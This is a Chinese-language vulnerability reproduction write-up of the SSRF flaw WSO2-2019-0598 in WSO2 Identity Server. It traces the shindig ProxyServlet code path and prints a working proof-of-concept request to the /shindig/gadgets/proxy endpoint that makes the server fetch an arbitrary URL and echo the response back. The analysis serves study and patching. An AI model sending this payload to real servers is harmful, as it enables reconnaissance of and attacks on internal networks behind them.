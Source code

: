 # WSO2 proxy SSRF漏洞 WSO2-2019-0598

## 漏洞描述

滥用 shindig Web 应用程序的 UI 小工具加载功能可以利用此漏洞。攻击者可以更改请求中的特定 URL，从而导致服务器向更改后的 URL 发起 GET 请求。通过利用此漏洞，攻击者可以使用服务器执行任意外部服务交互。这可以特别用于与内部网络的节点进行交互，否则这些节点会被网络规则隐藏在外部。攻击者可以利用它来追踪和侦察网络，除此之外，如果有内部端点对 GET 请求进行状态更改操作，那么就有可能很好地破坏它们的完整性。根据端点实施的保护级别，此漏洞的影响可能会有所不同。

## 漏洞影响

<a-checkbox checked>WSO2 Identity Server  5.2.0 , 5.3.0 , 5.4.0 , 5.4.1 , 5.5.0 , 5.6.0 , 5.7.0</a-checkbox></br>

<a-checkbox checked>WSO2 IS as Key Manager  5.3.0 , 5.5.0 , 5.6.0 , 5.7.0</a-checkbox></br>

## 环境搭建

[https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip](https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip)

## 漏洞复现

根据官方描述，漏洞造成的原因主要是  shindig Web 应用程序的 UI 小工具的加载功能, [WSO2-2019-0598](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2019-0598)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650949168107-52c50aa8-724d-44fe-b6b7-88c5ee421b1a.png)

下载源码启动环境，在IDEA中调试,

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650949296183-8fcf7648-396c-4cf0-97e6-2d8bd7703549.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650949352127-e4a58aa5-02ab-47b6-a39f-4c4674078557.png)

根据官方描述，在全局搜索 shindig 相关代码

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650949484773-86c19b18-058f-4b04-b3af-f2c770e042fe.png)

打下断点，看一下访问 `/shindig/gadgets/js` 路径时代码的调用流程

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650949747820-46ca8de3-5455-4814-9d7d-1f43470e9842.png)

可以看到当访问此路径时，调用了对应的 Servlet 下的 doGet方法 来处理`(org.apache.shindig.gadgets.servlet.JsServlet.doGet(JsServlet.java:86)`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650949997574-c1633833-c71b-4d0d-b6f7-b2408c614032.png)

我们可以在文件 `conf/shindig/web.xml 找到对应的调用方法`
![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650952090941-f1e39caa-c6ee-4ad2-9ee9-51f1d52f88f0.png)

看到这我们注意到 `org.apache.shindig.gadgets.servlet.MakeRequestServlet` 似乎与  Jira未授权SSRF漏洞(CVE-2019-8451) 中存在的漏洞点十分的相似

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650952325298-e424a1e2-e3e0-4a14-8424-10cfb0d63365.png)

但断点调试过程中，却发现这个点是利用失败的

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650952414457-a9d6704f-ac22-48fb-ba74-d1c96e2c18b0.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650952488384-050175c2-7724-4dc3-a07d-ab5b893a2867.png)

只好去看一下其他的Servele , 最后我们注意到 ProxyServlet

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650952714596-71a7d9a1-931d-4592-a594-a0a113410d1c.png)

发送请求包，打断点看一下处理流程

```java
GET /shindig/gadgets/proxy?container=default&url=https://www.baidu.com HTTP/1.1
Host: localhost:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

通过 `org.apache.shindig.gadgets.servlet.ProxyServlet` 下的 doGet方法接收参数， 传入 `processRequest`

中 

```java
private void processRequest(HttpServletRequest request, HttpServletResponse servletResponse) throws IOException {
        if (request.getHeader("If-Modified-Since") != null) {
            servletResponse.setStatus(304);
        } else {
            Uri reqUri = (new UriBuilder(request)).toUri();

            HttpResponse response;
            try {
                ProxyUri proxyUri = this.proxyUriManager.process(reqUri);
                SecurityToken st = AuthInfoUtil.getSecurityTokenFromRequest(request);
                proxyUri.setSecurityToken(st);
                proxyUri.setUserAgent(request.getHeader("User-Agent"));
                if (proxyUri.getGadget() == null && st != null && !st.isAnonymous()) {
                    proxyUri.setGadget(st.getAppUrl());
                }

                AuthType authType = proxyUri.getAuthType();
                if (AuthType.OAUTH.equals(authType)) {
                    proxyUri.setOAuthArguments(new OAuthArguments(AuthType.OAUTH, request));
                } else if (AuthType.OAUTH2.equals(authType)) {
                    proxyUri.setOAuth2Arguments(new OAuth2Arguments(request));
                }

                String host = request.getHeader("Host");
                if (!this.lockedDomainService.isSafeForOpenProxy(host)) {
                    Uri resourceUri = proxyUri.getResource();
                    String msg = "Embed request for url " + (resourceUri != null ? resourceUri.toString() : "n/a") + " made to wrong domain " + host;
                    if (LOG.isLoggable(Level.INFO)) {
                        LOG.logp(Level.INFO, classname, "processRequest", "embededImgWrongDomain", new Object[]{resourceUri != null ? resourceUri.toString() : "n/a", host});
                    }

                    throw new GadgetException(Code.INVALID_PARAMETER, msg, 400);
                }

                if ("POST".equalsIgnoreCase(request.getMethod())) {
                    StringBuffer buffer = this.getPOSTContent(request);
                    response = this.proxyHandler.fetch(proxyUri, buffer.toString());
                } else {
                    response = this.proxyHandler.fetch(proxyUri);
                }
            } catch (GadgetException var11) {
                response = ServletUtil.errorResponse(new GadgetException(var11.getCode(), var11.getMessage(), 400));
            }

            ServletUtil.copyToServletResponseAndOverrideCacheHeaders(response, servletResponse);
        }
    }
```

向下跟进到` org.apache.shindig.gadgets.servlet.ProxyHandler `

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650956411691-435ce4a4-0fd4-4c36-ae68-f225e5eefb31.png)



`org.apache.shindig.gadgets.servlet.ProxyHandler.fatch`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650957359634-2d8e534a-14d0-409c-8b7d-61fdbdc5695b.png)



接着向下看到 org.apache.shindig.gadgets.servlet.ProxyHandler 下的 `buildHttpRequest` 方法创建Http请求， 而目标就是我们刚刚传入的Url参数

```java
 private HttpRequest buildHttpRequest(ProxyUri uriCtx, Uri tgt, @Nullable String postBody) throws GadgetException, IOException {
        ServletUtil.validateUrl(tgt);
        HttpRequest req = uriCtx.makeHttpRequest(tgt);
        req.setRewriteMimeType(uriCtx.getRewriteMimeType());
        if (postBody != null) {
            req.setMethod("POST");
            req.setPostBody(new ByteArrayInputStream(postBody.getBytes()));
        }

        if (req.getHeader("User-Agent") == null) {
            String userAgent = uriCtx.getUserAgent();
            if (userAgent != null) {
                req.setHeader("User-Agent", userAgent);
            }
        }

        return req;
    }
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650956748587-08627c03-ca22-489e-b174-eb1c476f9072.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650956819778-3300aef4-dc84-425e-bcdf-6f5dd04bfa3e.png)

最后回显至页面中, 造成存在回显的SSRF

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650957201523-47aa0d2c-7cc7-4c10-b14c-fd48049681d3.png)![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650957230578-815a5156-d3b5-419b-a2e7-c2ac97a2c562.png)